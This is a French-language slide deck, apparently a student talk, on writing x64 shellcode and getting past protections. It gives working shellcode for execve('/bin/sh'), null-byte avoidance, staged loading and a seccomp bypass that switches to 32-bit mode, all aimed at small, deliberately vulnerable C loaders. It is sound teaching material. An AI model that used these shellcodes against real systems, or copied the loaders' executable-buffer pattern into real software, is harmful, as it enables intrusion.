

# Deep Dive into the Shellcode World: <span class="pink">Bypassing Modern Protections</span>

---

## Who Am I?

<div class="whoami-container">
  <div class="whoami-content">

**Louis**

Étudiant à **0x41**

Alternant chez **SAFRAN**

Blog: [kiperz.dev](https://kiperz.dev)

Discord: **kiperzzz75**

  </div>
  <div class="whoami-image">
    
  </div>
</div>

---

## Qu'est-ce qu'un Shellcode ?

**Définition**

Une suite d'instructions en assembleur que le programme va exécuter, généralement suite à l'exploitation d'une vulnérabilité.

---

## Rappel : Assembleur x64

<style scoped>
.asm-grid {
  grid-template-columns: 1fr 1fr 1fr;
  gap: 15px;
}
.asm-item {
  padding: 12px;
}
.asm-item h3 {
  font-size: 0.85em;
  margin-bottom: 6px;
}
.asm-item p {
  font-size: 0.85em;
  margin-bottom: 3px;
  line-height: 1.4;
}
</style>

<div class="asm-grid">

<div class="asm-item">

### PUSH / POP
Empile / Dépile sur la stack
`push rax` / `pop rax`

</div>

<div class="asm-item">

### MOV
Copie la valeur d'un registre
`mov rax, rbx`

</div>

<div class="asm-item">

### XOR
Opération XOR bit à bit (souvent pour mettre à zéro)
`xor rax, rax`

</div>

<div class="asm-item">

### SYSCALL
Appel système contenu dans le registre `rax`
`syscall`

</div>

<div class="asm-item">

### JMP
Saute inconditionnellement à une adresse
`jmp rax`

</div>

<div class="asm-item">

### RET
Retourne de la fonction en dépilant l'adresse de retour
`ret`

</div>

</div>

---

## Rappel : Registres x64

<style scoped>
.asm-grid {
  grid-template-columns: 1fr 1fr;
  gap: 20px;
}
.asm-item {
  padding: 15px;
}
.asm-item h3 {
  font-size: 0.95em;
  margin-bottom: 8px;
}
.asm-item p {
  font-size: 0.9em;
  margin-bottom: 5px;
  line-height: 1.5;
}
</style>

<div class="asm-grid">

<div class="asm-item">

### RAX
Utilisé pour les valeurs de retour et le numéro de syscall

</div>

<div class="asm-item">

### RDI
Premier argument des fonctions et syscalls

</div>

<div class="asm-item">

### RSI
Deuxième argument des fonctions et syscalls

</div>

<div class="asm-item">

### RDX
Troisième argument des fonctions et syscalls

</div>

<div class="asm-item">

### RCX
Quatrième argument des fonctions (R10 pour syscalls)
</div>

<div class="asm-item">

### RSP
Stack Pointer - pointe vers le sommet de la stack
Modifié par PUSH/POP/CALL/RET

</div>

</div>

---

## My First Shellcode

<div class="code-split">

<div class="code-block">

### Loader C
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>

int main() {
    unsigned char buffer[256];
    
    printf("Entrez votre shellcode : ");
    read(0, buffer, sizeof(buffer));
    
    // Rend la stack exécutable
    void *page = (void *)((unsigned long)buffer & ~0xFFF);
    mprotect(page, 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
    
    // Exécute
    void (*func)() = (void (*)())buffer;
    func();
    
    return 0;
}
```

</div>

<div class="code-block">

### Shellcode ASM
```nasm
mov rsi, 0
mov rdx, 0
mov rcx, 0x68732f6e69622f
push rcx
mov rdi, rsp
mov rax, 59
syscall
```

<div class="code-description">execve("/bin/sh", NULL, NULL)</div>

</div>

</div>

---

## Bypass Null Bytes

<style scoped>
pre {
  font-size: 0.45em;
  padding: 15px;
}
h2 {
  margin-top: 30px;
}
</style>
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>

int main() {
    unsigned char buffer[256];
    unsigned char exec_buffer[256];
    
    puts("Entrez votre shellcode : ");
    int n = read(0, buffer, sizeof(buffer));
    
    strncpy((char *)exec_buffer, (char *)buffer, n);
    
    void *page = (void *)((unsigned long)exec_buffer & ~0xFFF);
    mprotect(page, 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
    
    void (*func)() = (void (*)())exec_buffer;
    func();
    
    return 0;
}
```
---
## Bypass Null Bytes

**Problème :** `strncpy()` s'arrête au premier `\x00` → shellcode tronqué !

**Solution :** 
<style scoped>
pre {
  font-size: 0.60em;
  padding: 15px;
}
h2 {
  margin-top: 30px;
}
</style>

```nasm
xor rsi, rsi                    ; Remplace mov rsi, 0
xor rdx, rdx                    ; Remplace mov rdx, 0
xor rax, rax                    ; Met rax à 0
mov rdi, 0x68732f2f6e69622f     ; "//bin/sh" (8 bytes)
push rsi                        ; Push 0 (null-terminator)
push rdi                        ; Push la chaîne
mov rdi, rsp                    ; rdi pointe vers la chaîne
mov al, 59                      ; Petit registre
syscall
```

<div class="code-description">execve("//bin/sh", NULL, NULL)</div>

</div>

</div>

---

## Staged Shellcodes

<style scoped>
pre {
  font-size: 0.45em;
  padding: 15px;
}
h2 {
  margin-top: 30px;
}
</style>
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>

int main() {
    unsigned char buffer[256];
    
    puts("Entrez votre shellcode : ");
    read(0, buffer, 0x15);
    
    // Rend la stack exécutable
    void *page = (void *)((unsigned long)buffer & ~0xFFF);
    mprotect(page, 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
    
    // Exécute
    void (*func)() = (void (*)())buffer;
    func();
    
    return 0;
}
```

---

**Problème :** Le programme ne lit que **22 bytes** (`0x15`) → impossible d'injecter un shellcode `/bin/sh` complet !

**Solution :** Injecter un premier petit shellcode qui va lire notre second shellcode puis sautera dessus pour l'executer 
<style scoped>
pre {
  font-size: 0.60em;
  padding: 15px;
}
h2 {
  margin-top: 30px;
}
</style>

```nasm
xor rax, rax        ; syscall read (rax = 0)
xor rdi, rdi        ; stdin (rdi = 0)
mov rsi, rsp        ; buffer = stack pointer
mov rdx, 0x100      ; lit 256 bytes
syscall             ; read(0, rsp, 256)
jmp rsi             ; saute vers le code lu
```

<div class="code-description">read(stdin, stack, 0x100)</div>

</div>

</div>

---

## Seccomp Whitelist

<style scoped>
pre {
  font-size: 0.25em;
  padding: 15px;
}
.code-split {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 25px;
  margin-top: 20px;
}
.code-block {
  display: flex;
  flex-direction: column;
}
.seccomp-image {
  display: flex;
  align-items: center;
  justify-content: center;
  background: rgba(20, 25, 45, 0.4);
  border-radius: 8px;
  border-left: 4px solid #ff6b8a;
  padding: 20px;
}
.seccomp-image img {
  max-width: 100%;
  max-height: 400px;
  object-fit: contain;
}
</style>

<div class="code-split">

<div class="code-block">

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <sys/prctl.h>
#include <stddef.h>
#include <sys/syscall.h>

int main() {
    unsigned char buffer[256];

    struct sock_filter filter[] = {
        BPF_STMT(BPF_LD | BPF_W | BPF_ABS, offsetof(struct seccomp_data, nr)),
        BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, 0, 0, 1),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
        BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, 11, 0, 1),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
        BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_KILL),
    };
    
    struct sock_fprog prog = {
        .len = sizeof(filter) / sizeof(filter[0]),
        .filter = filter,
    };
    
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
    
    puts("Entrez votre shellcode : ");
    read(0, buffer, 0x100);
    
    void *page = (void *)((unsigned long)buffer & ~0xFFF);
    mprotect(page, 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
    
    void (*func)() = (void (*)())buffer;
    func();
    
    return 0;
}
```

</div>

<div class="seccomp-image">
  
</div>

---

## Seccomp Whitelist 

**Problème :** Seuls certains syscalls 64 bits sont autorisés

Syscalls autorisés : `read`, `write`, `close`, `stat`, `fstat`, `lstat`, `mmap`, `mprotect`, `munmap`, `exit`

<style scoped>
pre {
  font-size: 0.55em;
  padding: 10px;
  margin-top: 15px;
}
</style>

---

## Seccomp Whitelist 

**Solution :** 
Le programme ne vérifie pas l'architecture ! On peut basculer en mode 32 bits où les numéros de syscall sont différents

---

## Seccomp Bypass - Étape 1

**Mapper une région mémoire en 32 bits**

Utilise `mmap` pour créer une zone exécutable, y lit le shellcode et saute dessus

<style scoped>
pre {
  font-size: 0.30em;
  padding: 15px;
}
</style>
```nasm
xor rax, rax
mov al, 9              ; syscall mmap
mov rdi, 0x7f0000      ; adresse
mov rsi, 4096          ; taille
mov dl, 7              ; PROT_READ|WRITE|EXEC
xor r10, r10
mov r10b, 0x32         ; MAP_PRIVATE|ANONYMOUS
mov r8, -1             ; fd
xor r9, r9             ; offset
syscall

mov rbx, rax           ; sauvegarde l'adresse
xor rax, rax           ; syscall read
xor rdi, rdi           ; stdin
mov rsi, rbx           ; buffer = zone mappée
mov rdx, 256           ; taille
syscall

jmp rbx                ; saute vers le shellcode 32 bits
```

---

## Seccomp Bypass - Étape 2

**Basculer le CPU en mode 32 bits**

Utilise `retfq` pour changer de mode d'exécution

<style scoped>
pre {
  font-size: 0.70em;
  padding: 15px;
}
</style>
```nasm
mov rsp, 0x7f0000      ; nouvelle stack
add rsp, 0x200
push 0x23              ; segment 32 bits
push 0x7f0017          ; adresse de retour
retfq                  ; far return → bascule en 32 bits
```

<div class="code-description">Le CPU exécute maintenant en mode 32 bits !</div>

---

## Seccomp Bypass - Étape 3

**Shellcode 32 bits : open/read/write**

Lit et affiche le contenu d'un fichier en utilisant les syscalls 32 bits

<style scoped>
pre {
  font-size: 0.22em;
  padding: 15px;
}
</style>
```nasm
    jmp get_path
back:
    pop ebx            ; récupère le chemin du fichier
    mov eax, 5         ; syscall open (32 bits)
    xor ecx, ecx       ; O_RDONLY
    xor edx, edx
    int 0x80

    mov ebx, eax       ; fd du fichier
    mov eax, 3         ; syscall read (32 bits)
    sub esp, 100       ; buffer sur la stack
    mov ecx, esp
    mov edx, 100
    int 0x80

    mov edx, eax       ; nombre de bytes lus
    mov eax, 4         ; syscall write (32 bits)
    mov ebx, 1         ; stdout
    int 0x80

    xor eax, eax
    inc eax            ; syscall exit (32 bits)
    xor ebx, ebx
    int 0x80
get_path:
    call back          ; push l'adresse du chemin
```

<div class="code-description">open("/path/to/file") → read() → write(stdout)</div>

---

## Conclusion

<style scoped>
h2 {
  margin-top: 30px;
  margin-bottom: 20px;
}
p, li {
  font-size: 0.95em;
  line-height: 1.6;
}
strong {
  font-size: 1.1em;
}
ul {
  margin-left: 40px;
  margin-top: 10px;
  margin-bottom: 15px;
}
</style>

**Les protections ne sont pas infaillibles**

Même avec des mécanismes de sécurité, il est possible de les contourner avec un peu d'ingéniosité et de créativité.

**Ce n'est que la surface**

Cette présentation n'a fait qu'effleurer le sujet des shellcodes. Il existe de nombreuses autres protections et techniques :
- CFI (Control Flow Integrity)
- SELinux/AppArmor
- Et bien d'autres...

**À vous de jouer !**

--- 

**Questions ?**

Je reste joignable sur Discord (**kiperzzz75**) ou slack

**Ressources**

L'ensemble des ressources (code C, exploits Python, slides) sont disponibles sur mon GitHub : **kiperZZZ**

<div style="text-align: center; margin-top: 40px; font-size: 1.3em; color: #ff6b8a;">
Merci pour votre attention !
</div>